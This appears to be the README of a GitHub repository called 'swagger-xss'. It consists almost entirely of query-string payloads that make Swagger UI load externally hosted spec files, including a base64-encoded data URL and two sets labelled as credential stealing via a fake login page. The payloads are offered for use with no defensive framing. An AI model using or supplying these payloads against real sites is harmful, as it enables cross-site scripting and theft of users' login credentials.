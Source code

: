 # swagger-xss

```
?configUrl=https://raw.githubusercontent.com/rix4uni/swagger-xss/main/swagger.json
?url=https://raw.githubusercontent.com/rix4uni/swagger-xss/main/swagger.yaml
?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9leHViZXJhbnQtaWNlLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==
````

# Credentails stealing using fake login page `form`
```
?configUrl=https://raw.githubusercontent.com/rix4uni/swagger-xss/main/form/xss_cred_steal.json
?url=https://raw.githubusercontent.com/rix4uni/swagger-xss/main/form/xss_cred_steal.yaml
```

# Credentails stealing using fake login page `lol`
```
?configUrl=https://raw.githubusercontent.com/rix4uni/swagger-xss/main/lol/xss_cred_steal.json
?url=https://raw.githubusercontent.com/rix4uni/swagger-xss/main/lol/xss_cred_steal.yaml
```
